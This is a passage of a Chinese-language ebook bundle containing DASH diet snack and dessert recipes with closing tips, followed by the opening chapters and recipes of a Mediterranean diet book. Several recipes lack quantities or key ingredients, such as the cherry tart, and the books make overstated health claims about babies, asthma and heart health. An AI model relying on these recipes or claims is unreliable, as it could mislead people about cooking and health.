- 4 片烤过的英式松饼 – 横对半切开
- 250 克低脂奶油乳士
- 300 至 400 克草莓，切片
- 1 匙蜂蜜
- 1 匙碎柑橘皮屑

制作方法：

- 将奶油乳士、柑橘皮和蜂蜜混合至完全均匀。
- 将奶油乳士混合物涂在松饼顶部。顶部放上一些草莓片。
- 对剩下的另一半松饼也进行同样的操作。享用吧！

## 食谱 4：咖喱蘸酱配蔬菜条

这是一道极其简单的无需烹饪的零食食谱，你和你的家人朋友都会喜欢它。

你需要：

- 2 根胡萝卜，切成条状
- 3 到 4 根芹芹，切成条状
- 200 克低脂酸奶
- 3 匙水果果酱 – 桃子或芒果味
- 1 匙咖喱粉

制作方法：

- 在碗中混合咖喱粉、果酱和酸奶。
- 预先切好蔬菜，直接蘸入这种美味的蘸酱中即可。
- 你也可以提前做好蘸酱。只需将其放入冰箱冷藏即可。
- 你也可以使用其他蔬菜，如黄瓜和豌豆荚。

## 食谱 5：自制起士大蒜片

这是一种独特、风味丰富且健康的零食，将改变你吃薯片的方式。

你需要：

- 1 包云饺皮
- 3/4 杯低脂奶士（奶碎的）
- 1 茶匙大蒜粉
- 半茶匙辣椒粉
- 1 匙用于涂刷的橄榄油

制作方法：

- 在饺皮上涂抹一些橄榄油。
- 将饺皮对角线切成两半，得到三角形的包装皮。
- 将切好的饺皮放在烤盘中。备用。
- 在碗中，混合辣椒粉、奶碎奶士和大蒜粉。撒在饺皮上。
- 在华氏 350 度的温度下烘烤 8 到 10 分钟，直到呈金棕色。冷却几分钟。上桌并享用吧！

## 食谱 6：DASH 燕麦饼干

饼干确实美味，但其中的脂肪对身体不是那么好处。这里有一个食谱可以让你尽情享受饼干直到吃饱。

你需要：

- 1 杯 燕麦片
- 2 个鸡蛋（仅蛋清）
- 1 杯 面粉（通用面粉）
- 半 杯低钠、低脂花生酱
- 半 杯软化黄油或黄油（低脂）
- ½ 杯红糖
- 一小撮小苏打
- 3 滴香草精

制作方法：

- 使用电动搅拌器混合花生酱和软化的黄油或人植物油——搅拌大约 30 到 40 秒。
- 混合小苏打和糖。加入香草精和鸡蛋。搅拌至混合均匀。加入面粉，然后加入燕麦片。
- 用茶勺取面团。放在饼干板上，彼此至少间隔 2 到 3 英寸。
- 在华氏 375 度下烘烤 6 到 8 分钟。冷却几分钟。享用吧！

## 食谱 7：无罪乳脂浆果

浆果是维生素和矿物质的极佳来源——它们也是抗氧化剂。你可以利用低脂酸奶和小浆果制作极佳的零食。

你需要：

- 一 杯浆果（蓝莓、草莓、树盆莓）
- 蝴蝶酥或饼干条
- 2 到 3 杯风味低脂酸奶（芒果、香草味等）

制作方法：

- 在碗中混合浆果和酸奶。
- 盛入纸杯或冰棒模具中，然后用锡纸覆盖。
- 在中间戳一个小孔，放入蝴蝶酥/饼干条。
- 放入冷冻室冷藏几小时。享用吧！

## 第 8 章 – DASH 饮食甜点创意

## 食谱 1：热带风味

这是一种健康且美味的甜点，可以满足你的渴望。

你需要：

- 杯 草莓
- 一 杯 黑莓
- 一 杯 切块的奇异果
- 切块的奇异果
- 酸奶
- 240 克低脂奶士
- 蜂蜜

制作方法：

- 在碗中混合酸奶和奶士。
- 放入水果。- 搅拌均匀。

## 食谱 2：菠萝冰棒

这是一种非常清爽的冰块甜点。

你需要：

- 杯 切块的菠萝
- 杯 菠萝汁
- 杯 奶

制作方法：

- 将菠萝汁和奶放入搅拌机中。
- 搅拌至均匀。
- 放入冷藏。

## 食谱 3：西瓜冷饮

这种在冷藏后食用是最棒的。

你需要：

- 杯 切块的西瓜
- 一 杯 鲜榨橙汁
- 酸奶

制作方法：

- 将西瓜、橙汁和酸奶在搅拌机中混合。
- 放入冷藏。

## 食谱 4：莓果香蕉冰淇淋

这是一种极佳的奶油甜点。

你需要：

- 杯 切片的香蕉
- 杯 奶
- 杯 莓果
- 香草精

制作方法：

- 将香蕉片冷冻 6 小时。
- 加入香草精。
- 搅拌均匀几分钟。

## 食谱 5：免烤香蕉巧克力派

这是一种不需要烤箱的美味甜点。

你需要：

- 杯 巧克力
- 奶油乳士
- 饼干底
- 糖

制作方法：

- 将巧克力融化并放入碗中。
- 加入糖和奶油乳士，搅拌均匀。
- 放入冷藏。

## 食谱 6：橙味哈瓜冰沙

为准备一些清爽的甜点总是很好的。

你需要：

- 杯 切块的哈瓜
- 冰块
- 鲜榨橙汁

制作方法：

- 将冰块、哈瓜和橙汁放入搅拌机。
- 搅拌 8 到 12 秒直到光滑。

## 食谱 7：胡萝卜奶士蛋糕

与其用普通的巧克力，为什么不尝试用胡萝卜做甜点呢？

你需要：

- 杯 切胡萝卜
- 4 个大鸡蛋
- 杯 奶油乳士
- 香草味蛋糕粉
- 半 杯 鲜榨橙汁
- 杯 葡萄干
- 一匙肉桂
- 杯 核桃
- 橙皮

制作方法：

- 将烤箱预热至华氏 350 度。然后，用植物油或任何不粘层涂抹蛋糕模具。在模具上撒一点面粉。备用。
- 在碗中混合蛋糕粉、鸡蛋、橙汁和肉桂粉。用电动搅拌器搅拌 50 秒或更久直到均匀。再搅拌一分钟产生浓稠混合物。
- 慢慢拌入坚果、切胡萝卜和葡萄干。将混合物倒入模具并放入烤箱。
- 烘烤 30 到 40 分钟，直到蛋糕呈金棕色。通过轻轻按蛋糕来测试。当它回弹时就做好了。
- 从烤箱中取出。冷却 10 到 15 分钟。用面包刀或平棒绕着模具边缘将蛋糕从模具中取出并倒扣。冷却 20 分钟或久。
- 同时，将奶油乳士搅拌至厚稠。加入一些橙皮以增强风味。

-   将蛋糕水平切半。在其中一层顶部涂抹奶油奶士糖霜。加入一些切碎的核桃。盖上另一层，并重复同样的操作。在顶部撒一些橙皮屑。享用吧！

## 第 9 章 – DASH 饮食最后建议

开始 DASH 饮食一点也不难。你只需要留意饮食原则，并做好对生活方式做出重大改变的准备。实际上，该计划的基础内容已经在之前的章节中提供了。

然而，这里有几条建议可以确保你的成功：

## 循序渐进

你可能和世界上大多数人一样，是一个红肉爱好者。因此，突然转向吃水果和蔬菜将是一种折磨。你可以做的不是急于求成，简单地进行渐进式的改变。很好的开始方法是将一天中的一餐替换为符合 DASH 原则的食谱。

## 甜点和零食低脂

你应该学会用更健康的选择来平复你对甜点物的渴望。与其吃那块罪恶的巧克力蛋糕，不如选择全麦马芬，或者更好——新鲜水果，呢？你甚至可能想开始吃硬糖或坚果作为零食。

### 避免酒精和糖分

如果你真的想生活得更健康、更好，你应该学会放弃糖分和酒精。这些东西味道确实很棒，但效果没有一杯不加糖的低脂或零脂果汁。

### 阅读食品标签

在开始之前，你需要向储物室装满 DASH 食品。借此，你必须学会识别这些物品。仔细检查标签，确保你购买的是新鲜的、低脂肪、低钠和低热量的。例如，与其买普通的白面包，不如选择全谷面包。与其吃白饭，野生米、红米或糙米更合适。

## 无剥夺

通过 DASH，不需要忍受饥饿，因为你可以在享受美味食物的同时变得健康并减轻体重。保持每天三顿正餐，中间穿插两顿或更多零食。这就是这种饮食的迷人之处。通过 DASH 减轻体重，过上健康的生活。

## 增加水果蔬菜

饮食中蔬菜和水果的常规摄入量只有半杯。为了让 DASH 饮食发挥作用，将分量翻倍是理想的。所以，与其半，不如整份。浆果是极佳的选择，对于蔬菜，尽可能选择新鲜的，但也允许使用冷蔬菜。大多数超市都有沙拉吧，并出售袋装的即食蔬菜，这为你减轻了负担。既然有了这些便利条件，没有任何理由不吃蔬菜和水果。

## 其他蛋白质来源

在选择为身体提供必需蛋白质食物时要明智。尽可能限制红肉。多吃一些瘦肉，如鱼类和禽类。此外，市那里还有很多优质且健康的蛋白质来源，如豆腐、豆浆、坚果和种子。这些可以帮助你感到更有饱腹，同时保持健康并收紧腰线。

## 当无法避免牛奶时

当然，牛奶是一种真正的享受。你将它用于奶昔、烹饪、早晨咖啡等。在 DASH 饮食下，食用牛奶并不是犯罪。只需确保你使用的是脱脂或低脂品种，就不会有什么问题。

## 避免垃圾食品

DASH 饮食的目标之一是培养可以持续一生的健康饮食习惯。所以，学会如何丢掉垃圾。在这种情况下，垃圾意味着任何经过加工、包装、高盐、含咖啡因、含糖并被防腐剂轰炸的食物。因此，限制或忘记超市里的那些包装薯片、碳酸饮料和包装糖点。但不要太灰心，你仍然可以吃这些，但要作为一种“奖励”。垃圾食品不应该是你日常餐的一部分。

## 结论

再次感谢你下载这本书！

我希望这本书能够帮助你获得更多关于高度可行性的 DASH 减脂饮食的信息——关于该计划的核心内容、基本饮食指南，以及全天各餐点（包括零食和甜点）的简易操作食谱。

为心血管健康和过度脂肪苦恼是一件非常困难的事情。有了这个革命性的饮食计划，你的忧虑可能瞬间就会消失。DASH 14 天计划无疑是开启生活方式和饮食模式改变的绝佳方式。

下一步是采用在书中学到的知识来执行 DASH 计划。本指南介绍的食谱易于准备、健康、低胆固醇且低热量。开启这一改变你饮食和生活方式的新挑战吧！

拥抱 DASH，享受快乐与健康！

最后，如果你喜欢这本书，我想请你帮个忙，你乐意在 Amazon 上给这本书留个评价吗？我将不胜感激！

点击此处在 Amazon 上为本书留评！

谢谢并祝你好运！

## 14 天地中海饮食食谱

## 初学者必备全方位地中海饮食

关于我最喜欢的饮食的额外信息

在 KindleBookSpot.com 还有更多免费和特价书籍

## 目录

- 引言
- 第 2 章：14 天餐食计划食物清单
- 第 3 章：地中海早餐食谱
- 第 4 章：地中海午餐食谱
- 第 5 章：地中海晚餐食谱
- 第 6 章：地中海甜点食谱
- 结论

## 引言

我想感谢并祝贺你下载《14 天地中海饮食食谱》。

这本书包含了属于地中海饮食的美味且易做的食谱。

如果你对发现地中海饮食的益处感兴趣，请不要停止阅读这本书直到最后一章。你将获得关于如何应用这种健康饮食的价值信息，以及按全三大正餐分类的食谱，即早餐、午餐和晚餐。

它还包含了一个专门针对甜点的章节，以满足你对甜食的渴望。

感谢感谢下载这本书，希望你喜欢它！

## 第 1 章：地中海饮食：一种健康替代方案

研究表明，居住在中海地区的人寿命更高。这显然与他们的饮食有关，这被认为是现代饮食的健康替代方案。选择地中海饮食有许多健康益处，首先是降低癌症和心脏病的风险。此外，通过这种饮食，可以预防神经退行性疾病，如帕金森症或阿尔茨海默症。

地中海饮食金字塔的基础是身体活动和与人共进晚餐。新鲜水果蔬菜是每餐的一部分，以及橄榄油和全谷。鱼类和其他海鲜建议至少两次，乳制品应适量食用。红肉和甜点位于金字塔顶端。

如果你决定尝试这种饮食，你将习惯把新鲜水果蔬菜、全谷、豆类和坚果作为你的基础食物。黄油应替换为更健康的橄榄油，而香料和香草将用于调味（而不是盐）。面包是地中海饮食不可或缺的一部分，但仅指全谷物制成的。通常情况下，在刚出炉时蘸着橄榄油食用。

油菜油也是这种饮食的一部分，因为它含有健康的 omega-3 脂肪酸，例如亚麻油酸（也存在于坚果中）。通过食用此类油，你将获得较低的甘油三酯水平，并减少血块形成的风险。Omega-3 脂肪酸因保护心脏而闻名，它们能让血管更强健并帮助控制血压。这些健康的酸也存在于某些鱼类中，通常作为地中海饮食的一部分（鳟鱼、沙丁鱼、鲭鱼、�鱼、鲑鱼、金枪鱼等）。

乳制品，如鸡蛋、奶酪或酸奶是健康地中海饮食的一部分。然而，与家禽一样，建议适量食用。至于红肉和甜点，正如所说，它们处于金字塔的顶端，这意味着应该最少食用。

涉及到地中海饮食中的饮料，鼓励适量饮用葡萄酒（尤其是红酒），研究表明它能降低心脏病风险。对于女性，建议每天的量为一杯，而男士每天可以享受两杯。水是这种饮食的基础饮料，建议全天饮用。

重要的是要理解地中海饮食不仅关乎食物，而是生活方式的改变。应该与爱的人一起享受和准备食物，这种持续的互动确保了更长寿、更健康的生活。此外，身体活动与保持健康饮食同样重要，你应该始终寻找机会增加活动量。

如果你一直想减肥，应该考虑尝试这种特殊的饮食。它不仅能帮助你减肥，还能保证理想的体重管理。这种饮食可以帮助你对抗各种慢性疾病并降低哮喘发作的风险。它保护你免受糖尿病或抑郁症等严重疾病的侵害。此外，它还能确保你生下更健康、更壮的宝宝。

地中海饮食并不复杂，而且非常愉快。想象一下你将经常食用的蔬菜水果的新鲜口感和美味风味吧。这一定会迫使你改变对肉类的认知，因为它鼓励少吃。另一方面，它会激发你对海鲜的食欲，例如贻贝、牡蛎或蛤蜊，尤其是当你发现它们对心脏和大脑都有健康益处时。

你可以采取一些简单的步骤来适应这种新饮食。例如，你可以开始每周一次或两次做顿全素素餐。你有大量的蔬菜可以选择，更不用说豆类和全谷物了。此外，由于可以使用广泛的香草和香料，地中海饮食的味道非常丰富。

还建议转向到全谷物，因为它们能提供许多健康益处。它们含有大量的营养，并且富含纤维，这意味着它们能确保较长时间的饱腹感。在推荐的谷物中，你会发现不同类型的米、小米麦、法罗麦和大麦。荞麦和斯佩尔小麦。全麦粉可用于制作各种菜肴，确保同样的健康益处。

至于甜点，这可能需要一些适应，但从长远来看，它对你有好处。把甜点留给特殊场合，用新鲜水果作为甜点。有很多美味的水果可以选择，如无花果、石榴、苹果和葡萄，提供健康的维生素和营养。

## 第 2 章：14 天饮食计划食品清单

如果你打算尝试为期两周的地中海饮食，可以好好整理你的购物清单。在本章中，我们针对每类食品都提供了一些建议。这样，你将更容易组织你的购物清单并开启你的地中海美食之旅。

## 水果

苹果被广受推荐，因为它们含有健康的抗氧化剂且富含纤维。牛油果被广泛使用，是脂肪和维生素 E 的良好来源。香蕉可以降低你的血压，而且富含纤维和钾。蓝莓最好在季节时购买，因其抗氧化特性而被推荐。其他属于地中海饮食的水果：哈密瓜、樱桃、葡萄、奇异果、柑橘、桃、梨、菠萝、石榴、草莓和西瓜。

## 干果

干果通常是地中海饮食的一部分，但要适量食用，因为它们热量很高。它们都富含纤维并具有抗氧化特性。在推荐的选择中有：苹果、杏子、枣、无花果、西梅和葡萄干。干无花果也富钙并能降低血压。葡萄干可以代替糖，并且富铁。

## 谷物

食用大麦可以促进新代谢并降低胆固醇水平。推荐糙米，因为它具有抗炎特性且富含纤维。燕麦片是早餐的完美选择，富含钙并能刺激新代谢。藜藜是丰富的蛋白质来源，并且具有抗氧化特性。其他推荐的谷物包括：荞麦、小米麦、库斯斯、小米、混合麦片和斯佩尔小麦。面条也可以食用，只要是“弹牙的”（al dente）。

## 海鲜

海鲜通常包含在地中海饮食中，并新鲜食用。它是健康 omega-3 脂肪酸的丰富来源，并提供许多维生素和矿物质。由于这些特性，它们可以对抗慢性疾病。在推荐的海鲜中，你可以找到：鲑鱼、虾、鳕鱼、扇贝、蛤和蟹。

## 健康油和脂肪

按照这种饮食准备的许多沙拉和菜是用健康的油制作的，提供了良好的脂肪来源。如果你想确保它们的质量不变，应该考虑将它们储放在凉处。推荐的油有：特级初榨橄榄油、牛油果油、油菜油和籽油。

## 香草和香料

在许多地中海菜中，用香草和香料代替盐来增加风味。使用香草和香料的另一个优点是，相应的菜肴不需要额外的脂肪。在推荐的香草和香料中有：大蒜、罗勒、香菜、欧芹、薄荷、孜然、香和牛至香。

## 豆类

地中海饮食有许多豆类食谱，因为它们提供了蛋白质和纤维的良好来源。建议至少每周用豆类代替你的红肉餐。在指定的豆类中有：鹰嘴豆、鹰嘴豆泥、白豆、黑豆、斑豆和扁豆。

### 乳制品

建议适量食用乳制品，因为它们的热量摄入较高。在要加入饮食的指定产品中有：低脂牛奶、酸奶、各种奶酪和鸡蛋。

## 坚果和种子

不同的坚果和种子包含在地中海菜肴中，无论是主菜还是甜点。它们提供了蛋白质、纤维和健康脂肪的良好来源。然而，由于热量摄入较高，应该适量。推荐的坚果和种子有：核桃、杏仁、花生、松子、腰果、葵花籽和亚籽。

## 蔬菜

新鲜蔬菜出现在大多数地中海菜中，有助于控制体重。此外，它们是维生素和矿物质的良好来源。在推荐的蔬菜中有：西红柿（新鲜的、罐头的和酱汁）、西兰花、菠菜、青椒（红、绿）、蘑菇、豆角、茄子、西芦、南瓜、橄榄、洋葱和豌豆。

这些是你进行 14 天地中海饮食之旅所需的性食品。在接下来的章节中，你将发现许多推荐的食谱，适用于三

每日正餐。每份食谱都列出了总耗时、份数和食材，以便你做好准备。享受烹饪的过程，并不要犹豫要与朋友家人分享你的烹饪冒险，因为这正是生活的真谛！

## 第3章：地中海早餐食谱

地中海早餐轻盈、风味丰富且饱腹。在本章中，你将发现几个早餐建议，开启美好的一天。请务必尝试所有的做法，享受它们独特的味道！

## #1 地中海早餐三明治

份数：4份

总耗时：25 min.

食材：多谷明治片（4片）、橄榄油（4汤匙）、新鲜迷迭香（1汤匙）、鸡蛋（4个）、婴儿菠菜（2杯）、番茄（1个）、菲奶酪（4汤匙）、犹太盐（1/8茶）、现磨黑椒（适量）

制作方法：

首先将烤箱预热至 375°F（190°C）。切开明治片并刷上橄榄油。然后在烤箱中烘烤约5分钟，直到它们变成诱人的金褐色。在平底锅中用橄榄油和新鲜迷迭香，中火煎炒鸡蛋。将烤好的明治片下半部分放在盘中。加入婴儿菠菜、番茄切片、一个鸡蛋和菲奶酪。用盐和胡椒调味。放上明治片的上半部分。装盘即可享用！

## #2 烤番茄蛋蛋白早餐三明治

份数：4份

总耗时：30 min.

食材：黄油（1茶匙）、蛋清（1/4杯）、盐和椒（适量）、新鲜香草——欧芹、罗勒、迷迭香（各1茶匙）、全麦西西塔卷饼（1个）、青酱（1汤匙）、蒙特利杰克奶酪（1-2片）、烤番茄（1/2杯）；烤番茄原料——葡萄番茄（10盎司）、特级初榨橄榄油（1汤匙）、犹太盐和现磨黑椒（适量）。

制作方法：

首先用橄榄油炒蛋清。用盐和胡椒调味，然后加入上述新鲜香草。用烤箱或烤面包机烤好西西塔卷饼。烤好后涂上青酱。将蛋蛋白放在西西塔卷片的下半部分并加入奶酪。加入烤番茄和卷饼的上半部分。烤番茄可以在烤箱中加入橄榄油、盐和黑椒制成。装盘即可享用！

## #3 早餐库斯小米

份数：4份

总耗时：25 min.

食材：低脂牛奶（3杯）、肉桂棒（1根）、全麦库斯小米（1杯）、干杏（1/2杯）、干黑醋（1/2杯）、深色红糖（6茶匙）、盐（1/4茶）、黄油（4汤匙）

制作方法：

首先将牛奶和肉桂棒一起放入锅中，用中火加热。不要煮沸牛奶，只需加热约3分钟。离火后，加入以下食材：全麦库斯小米、干杏和干黑醋、四茶匙红糖和盐。盖好混合物，静置15分钟。取出肉桂棒后，将混合物盛入碗中。淋上融化的黄油和红糖。装盘即可享用！

## #4 菲奶酪炒蛋

份数：4份

总耗时：35 min.

食材：鸡蛋（6个）、轻酸奶油（1/4杯）、犹太盐（1/4茶）、现磨黑椒（适量）、大蒜粉（1/4茶）、罗勒（1/2茶）、牛至香（1/2茶）、菲奶酪（3/4杯）、烤红椒（2汤匙）、小葱（2汤匙）、面粉薄饼（4张）

制作方法：

首先将鸡蛋与酸奶油、犹太盐、现磨黑椒、大蒜粉、罗勒和牛至香混合均匀。倒入锅中均匀炒熟。然后加入烤红椒和小葱。完成后，将它们放在面粉薄饼上，撒上碎的菲奶酪。卷起面饼，装盘即可享用！

## #5 希腊酸奶隔层

份数：8份

总耗时：1小时

食材：未煮的大粒（1杯）、水（12杯）、橙花蜜（1/4杯）、犹太盐（1/4茶）、希腊酸奶（4杯）、新鲜莓果（2杯）

制作方法：

大粒应在水中浸泡过夜。早晨滤干并加入带水的锅中，确保整个混合物沸。然后转小火，让大粒慢煮约20分钟。滤干，加入橙花蜜和盐。在使用前冷却。取一个隔层杯，加入第一层希腊酸奶。然后加入大粒和新鲜莓果。重复分层，直到杯子满。装盘即可享用！

## 第4章：地中海午餐食谱

地中海饮食以其健康的食材而闻名全球，包括一些令人惊叹的午餐创意。棒的地方在于，制作这些食谱不需要很多食材，但最终味道惊人。让我们来看看一些最受欢迎的午餐食谱吧！

## #1 仁柠檬罗勒意大利面

份数：4份

总耗时：15 min.

食材：水（3夸脱）、意大利面（8盎司）、虾仁（1磅）、新鲜罗勒（1/4杯）、刺豆角（3汤匙）、特级初榨橄榄油（2汤匙）、新鲜柠檬汁（2汤匙）、盐（1/2茶）、婴儿菠菜（2杯）

制作方法：

首先烧水。水沸腾后，加入意大利面，煮约8分钟。然后将虾仁加入锅中烹饪约3分钟（此时面条应该是恰硬的 al dente）。滤干并将混合物放入大碗中。加入新鲜罗勒、滤干的刺豆角、特级初榨橄榄油和柠檬汁。用婴儿菠菜作为底衬。将面混合物放在底衬上，装盘即可享用！

## #2 希腊烤肉串

份数：4份

总耗时：15 min.

食材：菲奶酪（1/2杯）、希腊酸奶（1/2杯）、新鲜莳萝（1汤匙）、橄榄油（1汤匙）、碎大蒜（1/4茶）、干牛至香（1/2茶）、鸡胸肉（2杯）、皮塔饼（4个）、冰菜生（1杯）、黄瓜（1/2杯）、小西番茄（1/2杯）、红洋葱（1/4杯）

制作方法：

首先将菲奶酪揉碎，与酸奶、莳萝、额外橄榄油和大蒜混合。确保食材混合均匀。然后取一个锅，用橄榄油炒大蒜和牛至香。加入切片的鸡胸肉再炒两分钟。将皮塔饼切半。将鸡胸肉放在皮塔饼上，加入生菜、黄瓜和番茄。装盘即可享用！

## #3 地中海枪鱼沙拉

份数：5份

总耗时：15 min.

食材：蔬菜汁（1/2杯）、辣末芥（4汤匙）、金枪鱼（12盎司）、烤红椒（2/3杯）、切碎西芹（1/2杯）、碎欧芹（4汤匙）、卡拉塔橄榄（2汤匙）

制作方法：

首先准备沙拉酱料。将蔬菜汁与辣末芥混合备用。沥干金枪鱼放入碗中。然后加入切碎的烤椒、西芹、欧芹和卡拉塔橄榄。拌匀。将酱料加入沙拉中再次搅拌，直到所有食材均匀。冷藏后享用。享受！

## #4 酿番茄

份数：4份

总耗时：25 min.

食材：番茄（2个）、大蒜丁（1/2杯）、碎羊奶酪（1/4杯）、卡拉塔橄榄（1/4杯）、油醋（2汤匙）、新鲜百里香或罗勒（各2汤匙）

制作方法：

首先预热烤火。然后将番茄切半（横切）。取出番茄肉，保留壳。确保将番茄肉切碎备用。取一个碗混合以下食材：大蒜丁、碎羊奶酪、卡拉塔橄榄。将番茄肉加入混合物中，淋上油醋汁和新鲜百里香/罗勒。烤番茄约5分钟。装盘即可享用！

## #5 地中海能量餐碗

份量：2 人份

总耗时：25 分钟

食材：鸡胸肉（8 盎）、新鲜迷迭香（2 枝）、新鲜欧香草（2 枝）、刺山柑（1 汤匙）、柠檬（1 个）、米形面（1/2 杯）、新鲜菠菜（3 杯）、烤红灯椒（1-2 个）、腌制朝鲜蓟心（2-3 个）、混合橄榄子（5 个）、橄榄油（1 汤匙）、盐和胡椒（适量）

制作方法：

首先在鸡胸肉上裹上迷迭香、欧香草和柠檬汁。中火将鸡胸肉两面煎烤约十分钟，直到煮透。离火并静置 10 分钟。按照包装上的说明准备米形面。完成后，沥干米形面并在其淋上橄榄油。然后，用盐和胡椒调味。取一个碗，放入放入以下食材：新鲜菠菜、米形面、切片的鸡胸肉、烤红灯椒、朝鲜蓟心和混合橄榄子。将橄榄油与新鲜柠檬汁以及烤红灯椒、朝鲜蓟心和混合橄榄子的原汁混合调制酱料。

## 第 5 章：地中海晚餐食谱

如果你在地中海地区旅行，你会发现晚餐非常轻盈，通常由风味丰富的食材制作。本章包含了许多地中海晚餐食谱，让你可以在家里尝试属于自己的烹饪体验。

## #1 地中海鸡肉意面

份量：4 人份

总耗时：30 分钟

食材：螺旋面（2  ½ 杯）、油（1 汤匙）、鸡肉肠（3 根）、冷冻甜豌豆（1 和 1/4 杯）、罗罗勒酱（3/4 杯）、切碎的意大利混合奶酪碎（1 杯）、番茄（1 个）

制作方法：

首先按照包装上的说明煮面。煮好后，沥干并用冷水冲洗。将鸡肉肠切成薄片并煎熟，直到变成诱人的金黄色。加入面条、冷冻豌豆和罗勒酱。再煮 5 分钟，期间确保经常搅拌。撒上切碎的意大利混合奶酪碎和番茄碎。再煮 3 分钟，让奶酪完美融化。上菜享用吧！

## #2 分层希腊沙拉

份量：8 人份

总耗时：25 分钟

食材：酱料——冷冻菠菜（9 盎）、希腊酸奶（5.3 盎）、脱脂牛奶（2/3 杯）、蛋美滋（1/4 杯）、柠檬胡椒粉（1 茶匙）、干莳萝（3/4 茶匙）；沙拉——沙拉蔬菜（8 杯）、鸡胸肉（2 杯）、樱番茄（1 磅）、黄瓜（1 个）、红洋葱（1/2 个）、菲塔士碎（3/4 杯）、去核卡拉塔橄榄（1/4 杯）

制作方法：

首先按照包装上的说明煮菠菜。用冷水冲洗并沥干，然后放入食物机中，加入酱料的其他原料（希腊酸奶、脱脂牛奶、蛋美滋、柠檬胡椒粉、干莳萝）。搅拌直到获得光滑的酱料，并备用。取一个大沙拉碗，放入第一层沙拉蔬菜。然后铺上另一层鸡肉块，接着是番茄和黄瓜。重复分层，直到所有食材用完，最后用洋葱、黄瓜剩下的沙拉蔬菜装饰。将酱料淋在沙拉上。然后撒上菲塔士碎、卡拉塔橄榄和剩下的洋葱。上菜享用吧！

## #3 薄荷黄瓜酱火鸡堡

份量：5 人份

总耗时：50 分钟（准备 20 分钟，烹饪 30 分钟）

食材：黄瓜酱——原酸奶（1/2 杯）、黄瓜（1/2 杯）、新鲜薄荷（2 茶匙）、柠檬汁（1 茶匙）；汉堡——冷冻切碎菠菜（9 盎）、火鸡肉末（1 和 1/4 磅）、普通酸奶（1/4 杯）、干欧香草（1 茶匙）、蒜盐（1/2 茶匙）、胡椒（1/4 茶匙）、番茄（1 个）、皮塔饼（5 个）

制作方法：

首先混合黄瓜酱的食材。完成后放入冷藏。按照包装上的说明煮菠菜。完成后，挤出多余的水。取另一个碗，将菠菜与火鸡肉末、酸奶、欧香草、蒜盐和胡椒混合。然后将混合物做成汉堡饼。煎烤汉堡饼直到其变成诱人的金黄色。将皮塔饼切对半，在上面放番茄片并放上汉堡。淋上黄瓜酱，上菜享用吧！

## #4 烤红薯猪肉里脊

份量：3 人份

总耗时：50 分钟（准备 15 分钟，烹饪 35 分钟）

食材：蔬菜——橄榄油（1 茶匙）、意大利调料（1 茶匙）、盐（1/4 茶匙）、大蒜（1 瓣）、红薯（2 个）、黄洋葱（1 个）；猪肉——里脊（1 磅）、橄榄油（1/2 汤匙）、意大利调料（1 茶匙）、调味盐（1/4 茶匙）、帕玛森奶酪（1 茶匙）、新鲜欧芹（1 汤匙）

制作方法：

首先预热烤箱至 425°F。然后，将一汤匙油与意大利调料、盐和大蒜混合。将红薯切块，洋葱切碎。将红薯和洋葱与油和香料混合。在烤箱中烤约十分钟。在里脊上上上榄油、意大利调料、调味盐、帕玛森奶酪和新鲜欧芹。在烤箱中烤 30 分钟。搭配红薯和洋葱食用。享用！

## #5 菠菜帕玛森派饼

份量：6 人份

总耗时：58 分钟（准备 15 分钟，烹饪 43 分钟）

食材：黄油（1 汤匙）、小葱（4 根）、大蒜（2 瓣）、冷冻切碎菠菜（10 盎）、奶酪（1/2 杯）、烘焙粉（1/2 杯）、牛奶（1 杯）、柠檬汁（1 茶匙）、胡椒（1/4 茶匙）、鸡蛋（3 个）、帕玛森奶酪（3 汤匙）、肉豆蔻（1/4 茶匙）

制作方法：

首先预热烤箱至 350°F。切碎小葱和大蒜。炒香菠菜并挤出多余的水。在碗中，将菠菜与奶酪、烘焙粉、牛奶、柠檬汁、胡椒、鸡蛋、帕玛森奶酪和肉豆蔻混合。将混合物铺在派盘。烤 43 分钟。上菜享用吧！

## 第 6 章：甜点食谱

尽管地中海地区的人经常用水作为甜点，但这并不意味着他们偶尔不会准备甜点食谱。在本章中，你将找到几种用健康食材的建议。

## #1 杏仁饼

制作：80 块

总耗时：45 分钟

食材：细砂糖（1 杯）、黄油（1/2 kg）、去皮杏仁（1 kg）、面粉（700 g）、蛋黄（1 个）、白兰地酒（1/2 杯）、小苏打（1 茶匙）；你还需要少量的黄油来涂锅，以及一些细砂糖撒在饼干上

制作方法：

首先预热烤箱至 180°C。然后，将融化的黄油与细砂糖、蛋黄、小苏打、去皮杏仁和白兰地酒混合。面糊准备好后，揉成小球，并在中心压凹。在锅上涂油，烤饼干直到其变成诱人的金黄色。完成后，在上面撒上细砂糖。静冷却后撒上第二层细砂糖。上菜享用吧！

## #2 南瓜希腊酸奶芭蕾

份量：6 人份

总耗时：10 人份量

食材：南瓜泥（15 盎）、低脂希腊酸奶（1 和 1/4 杯）、马斯卡彭彭奶酪（3-4 汤匙）、香草精（1 茶匙）、糖蜜（2 汤匙）、棕糖（2 和 1/2 茶匙）、肉桂粉粉（2 茶匙）、肉豆蔻（一小撮）、巧克力豆（点缀）、碎榛果/核桃（点缀）

制作方法：

首先在一个大碗中将南瓜泥与以下食材混合：希腊酸奶、马斯卡彭奶酪、香草精、糖蜜、棕糖、肉桂粉和肉豆蔻。充分混合直到获得光滑的质地。将混合物冷藏一段时间。然后将混合物放入单个芭蕾杯中。顶部淋上糖蜜、巧克力豆和碎榛果或核桃。上菜享用吧！

## #3 樱桃挞派

份量：6-8 人

总耗时：1 小时 20 分钟

食材：普通面粉（8 司）、盐（1 捏）、糖粉（2 茶匙）、玉米粉（1 司）、猪脂（4 司）、黄油（2 司）、蛋黄（1 个）、冷水（2 汤）

方法：

预热烤箱至 400°F。取一个碗，将普通面粉与盐、玉米粉和糖粉混合。将猪脂与黄油混合，加入上述混合物中。然后，将蛋黄和冷水加入混合物中形成面团。将面团擀平并放入涂涂油的派盘中。烘烤 15 分钟后取出。在派壳中摆好樱桃。将糖、鸡蛋、杏仁和杏仁精混合，均匀涂在樱桃上。再烘烤一小时，或直到呈金黄色。上菜享用吧！

## #4 橙子香料水果果汤

份量：6 人

总耗时：45 分钟（+6 小时冷却时间）

食材：新鲜迷迭香（1 根）、橙皮（适量）、完整黑胡椒（1 茶匙）、橙汁（3 杯）、干杏仁（2 杯）、干酸樱桃（3/4 杯）、金葡萄干（3/4 杯）、干白葡萄酒（3/4 杯）、糖（3/4 杯）

方法：

